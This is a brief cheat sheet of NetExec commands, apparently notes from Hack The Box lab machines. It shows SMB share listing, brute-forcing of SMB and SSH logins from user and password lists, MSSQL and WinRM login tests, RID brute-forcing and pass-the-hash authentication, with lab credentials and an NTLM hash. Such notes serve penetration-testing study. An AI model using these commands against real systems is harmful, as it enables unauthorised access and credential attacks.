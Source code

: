 __tags: windows linux smb mssql winrm ssh


#### List all shares with username and password:
```bash
netexec smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares
```

#### Trying Differnt passwords and users for smb brute force
```bash
netexec smb 10.10.11.51 -u users.txt -p pass.txt
```

#### Test mysql login
```bash
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
```

#### Test WinRm login
```bash
nxc winrm sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3'
```

#### Login with creds via SMB and brute force for passwords:
```bash
nxc smb 10.10.11.61 -u paul.taylor -p 'PASSSWORD1' --rid-brute
```

#### Verify Authtication with Hash
```bash
nxc smb 10.10.11.61 -u 'Haze-IT-Backup$' -H 723fd747a7523dbebfc5b1d3d759ffbf

#Mote the above is a computer/service account
```

#### SSH test passwords

```bash

nxc ssh agile.htb -u user.txt -p passwords.txt --no-bruteforce

```

